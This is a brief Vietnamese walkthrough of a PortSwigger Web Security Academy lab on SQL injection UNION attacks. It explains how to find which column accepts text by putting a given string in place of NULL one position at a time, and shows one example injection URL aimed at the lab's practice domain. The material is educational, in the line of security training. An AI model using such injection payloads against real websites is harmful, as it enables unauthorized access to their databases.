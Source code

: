## SQL injection UNION attack, finding a column containing text

Vẫn xác định số trường trả lại như Lab 1, nhưng lab này sẽ cho chúng ta 1 giá trị string để SELECT trong query.

Thay giá trị NULL bằng chuỗi string đã cho lần lượt từng vị trí cho đến khi load được web

```markdown
https://ac091f0d1fd4ba3480018e330031000b.web-security-academy.net/filter?category=Pets’+UNION+SELECT+NULL,’giá_trị_lab_cho’,NULL--
```

Về cơ bản, lab này giúp chúng ta xác định được trường nào chứa lỗi thôi.

![](/imgs/SQL-Injection/5.png?raw=true)
